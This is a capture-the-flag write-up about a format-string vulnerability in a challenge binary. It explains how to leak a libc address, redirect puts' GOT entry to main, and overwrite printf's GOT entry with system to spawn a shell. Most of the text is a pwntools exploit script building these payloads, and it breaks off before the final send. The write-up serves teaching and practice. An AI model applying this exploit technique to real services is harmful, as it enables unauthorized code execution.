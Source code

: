There's a `printf` vulnerability, which we can use for both reading/writing memory. Poking around in GDB, I found that `%39$lx` gives you a `libc` pointer. But what next? The program ends after the `printf`, so we need to somehow restart it, but we can't mess with `printf` because we need it again in the future for writing data.

Looking again in GDB, it turns out the last `printf` is actually a `puts`, which means we can use the vulnerability to rewrite its GOT entry to `main`. The overwrite actually needs to be `main+53` in order to bypass the `main_called` check.

Once we have the leak, we just need to overwrite `printf`'s GOT entry with `system`, and then jump to `printf(buf)` using the last `puts`.

The solve script:
```
from pwn import *
import sys

if __name__ == '__main__':
    debug = len(sys.argv) > 1

    if debug:
        p = gdb.debug('./patch', '''
        set follow-fork-mode child
        b *main
        b *main+154
        c
        ''')
    else:
        p = remote('lac.tf', 31135)

    # leak a libc pointer, then restart binary
    PUTS_GOT = 0x404018
    PRINTF_GOT = 0x404028
    MAIN_53  = 0x401187 # main+53
    OVERWRITE = MAIN_53 & 0xffff

    fmt_str = f'%39$lx.%{str(OVERWRITE-13)}x%9$hnBBBBBB'.encode() + p64(PUTS_GOT)
    
    print(p.recvuntil(b': ').decode())
    p.sendline(fmt_str)

    print(p.recvuntil(b'run around and ').decode())
    LIBC_BASE = int(p.readuntil(b'.').decode()[:-1].strip(), 16) - 146698
    SYSTEM = LIBC_BASE + 286288
    print(hex(LIBC_BASE))
    print(hex(SYSTEM))

    # overwrite printf with system
    # pads argument bytes to length mul
    pad = lambda s, mul: s + ((-len(s))%mul) * b'A'

    fmt_str = b'/bin/sh ########'
    fmt_str += pad(f'%{str((SYSTEM & 0xffff) - 1 - 16)}x'.encode(), 8)
    fmt_str += pad(b'%17$hn', 8) #12
    fmt_str += pad(f'%{str(0x10000 - SYSTEM&0xffff - 1)}x'.encode(), 8)
    fmt_str += pad(f'%{str(((SYSTEM >> 2*8) & 0xffff) - 4)}x'.encode(), 8)
    fmt_str += pad(b'%18$hn', 8) #13

    fmt_str += pad(f'%{str(0x10000 - (SYSTEM >> 2*8)&0xffff - 4)}x'.encode(), 8)
    fmt_str += pad(b'%4568x%19$hn', 16)

    fmt_str += p64(PRINTF_GOT)
    fmt_str += p64(PRINTF_GOT + 2)
    fmt_str += p64(PUTS_GOT)

```